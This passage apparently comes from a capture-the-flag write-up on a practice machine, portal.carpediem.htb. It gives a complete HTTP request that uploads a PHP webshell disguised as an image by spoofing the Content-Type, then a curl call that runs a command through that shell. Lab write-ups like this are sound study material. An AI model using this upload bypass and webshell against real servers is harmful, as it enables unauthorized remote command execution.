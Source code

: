 Now we can try to upload a PHP webshell using an image in `Content-Type` because there's a check for that.&#x20;

```http
POST /classes/Users.php?f=upload HTTP/1.1
Host: portal.carpediem.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Origin: http://portal.carpediem.htb
Connection: close
Referer: http://portal.carpediem.htb/admin/?page=maintenance/files
Cookie: PHPSESSID=23b68a0603f55733b3d5172c5121111a
Content-Type: multipart/form-data; boundary=---------------------------9051914041544843365972754266
Content-Length: 253



-----------------------------9051914041544843365972754266
Content-Disposition: form-data; name="file_upload"; filename="b.php"
Content-Type: image/png

<?php system($_REQUEST['cmd']); ?>

-----------------------------9051914041544843365972754266--
```

Then we can verify it works:

```
$ curl http://portal.carpediem.htb/uploads/1683799320_b.php?cmd=id      
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then, we can get an easy reverse shell.

<figure><img src="../../../.gitbook/assets/image (438).png" alt=""><figcaption></figcaption></figure>

## Docker Escape

### MySQL Creds --> Chisel
